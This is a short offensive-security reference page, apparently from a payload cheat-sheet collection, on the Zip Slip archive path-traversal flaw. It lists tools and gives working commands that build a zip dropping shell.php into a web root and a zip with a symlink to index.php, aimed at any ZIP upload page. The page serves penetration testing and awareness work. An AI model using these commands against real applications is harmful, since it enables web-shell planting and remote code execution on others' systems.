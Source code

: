 # Zip Slip

> The vulnerability is exploited using a specially crafted archive that holds directory traversal filenames (e.g. ../../shell.php). The Zip Slip vulnerability can affect numerous archive formats, including tar, jar, war, cpio, apk, rar and 7z. The attacker can then overwrite executable files and either invoke them remotely or wait for the system or user to call them, thus achieving remote command execution on the victim’s machine.

## Summary

* [Tools](#tools)
* [Methodology](#methodology)
    * [Detection](#detection)
    * [Basic Exploit](#basic-exploit)
* [Additional Notes](#additional-notes)

## Tools

* [ptoomey3/evilarc](https://github.com/ptoomey3/evilarc) - Create tar/zip archives that can exploit directory traversal vulnerabilities
* [usdAG/slipit](https://github.com/usdAG/slipit) - Utility for creating ZipSlip archives

## Methodology

### Detection

Any ZIP upload page on the application.

### Basic Exploit

Using [ptoomey3/evilarc](https://github.com/ptoomey3/evilarc):

```python
python evilarc.py shell.php -o unix -f shell.zip -p var/www/html/ -d 15
```

Creating a ZIP archive containing a symbolic link:

```ps1
ln -s ../../../index.php symindex.txt
zip --symlinks test.zip symindex.txt
```

### Additional Notes

For affected libraries and projects, visit [snyk/zip-slip-vulnerability](https://github.com/snyk/zip-slip-vulnerability)

## References

* [Zip Slip - Snyk - June 5, 2018](https://github.com/snyk/zip-slip-vulnerability)
* [Zip Slip Vulnerability - Snyk - April 15, 2018](https://snyk.io/research/zip-slip-vulnerability)
